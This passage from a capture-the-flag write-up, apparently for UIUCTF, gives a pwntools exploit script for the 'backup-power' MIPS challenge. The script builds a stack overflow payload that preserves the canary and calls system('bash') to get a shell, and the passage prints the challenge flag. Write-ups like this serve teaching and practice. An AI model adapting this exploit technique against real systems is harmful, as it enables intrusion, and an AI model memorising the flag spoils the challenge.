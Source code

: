 ```python
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ pwn checksec backup-power 
#     Arch:     mips-32-big
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX unknown - GNU_STACK missing
#     PIE:      No PIE (0x400000)
#     Stack:    Executable
#     RWX:      Has RWX segments

def exploit():
    global io
    io = initialize()

    io.sendlineafter(b'Username:', b'devolper')
    
    payload = cyclic(24)
    payload += b'bash\x00'.ljust(44-len(payload), b'\x00')
    payload += flat([
            0x400b0c,       # preserve `rip` to bypass canary check
            p32(0x1) * 5,   # random val for fuzz
            0x4aa330,       # preserve some value
            p32(0x4aa330),  # preserve some value
            0x4721c8,       # preserve some value
            p32(0x3) * 2,   # random val for fuzz
            0x400b0c,       # preserve some value
    ]) 
    payload +=  cyclic(204)
    payload += b'system\x00'
    
    sleep(0.2)
    io.sendline(payload)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _**uiuctf{backup\_p0wer\_not\_r3gisters}**_
{% endhint %}

***

## pwnymalloc

### Description
